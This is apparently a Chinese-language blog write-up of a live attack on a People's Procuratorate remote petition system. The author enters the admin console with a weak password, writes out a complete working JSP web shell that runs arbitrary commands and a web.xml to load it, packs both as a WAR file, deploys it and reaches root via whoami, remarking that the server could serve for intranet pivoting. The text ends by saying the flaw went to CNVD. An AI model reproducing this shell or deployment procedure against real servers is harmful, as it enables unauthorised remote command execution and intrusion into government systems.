记一次zf的实战😀记一次某人民检察院远程接访系统漏洞后台getshell 找到后台管理控制台后(尝试用弱口令进入)  弱口令登录后  找到发布应用程序  准备jsp shell 并保存为zpojerjv.jsp <%@ page import="java.util.*,java.io.*"%><%%><HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><%if (request.getParameter("cmd") != null) {out.println("Command: " + request.getParameter("cmd") + "<BR>");Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));OutputStream os = p.getOutputStream();InputStream in = p.getInputStream();DataInputStream dis = new DataInputStream(in);String disr = dis.readLine();while ( disr != null ) {out.println(disr); disr = dis.readLine(); }}%></pre></BODY></HTML> 准备WEB-INF中的xml文件用来解析jsp木马(把xml文件命名为web.xml并放入WEB-INF文件夹中) <?xml version="1.0"?><!DOCTYPE web-app PUBLIC"-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN""http://java.sun.com/dtd/web-app_2_3.dtd"><web-app><welcome-file-list><welcome-file>zpojerjv.jsp</welcome-file></welcome-file-list></web-app> 如下图桌面上的一个文件夹一个文件  完成后将两个文件打包成zip格式  打包操作如下所示  成功后如下所示，在桌面中会出现shell.zip的压缩包  把压缩包改名为war格式后缀  修改好后上传至发布应用程序  上传成功后能看到下图消息  点击应用程序列表发现shell.war状态已启动  最后点击访问  输入命令whoami 能获取到的权限为root权限  漏洞利用完毕,此服务器可做内网穿透，漏洞危害较大，已提交至CNVD望厂商重视。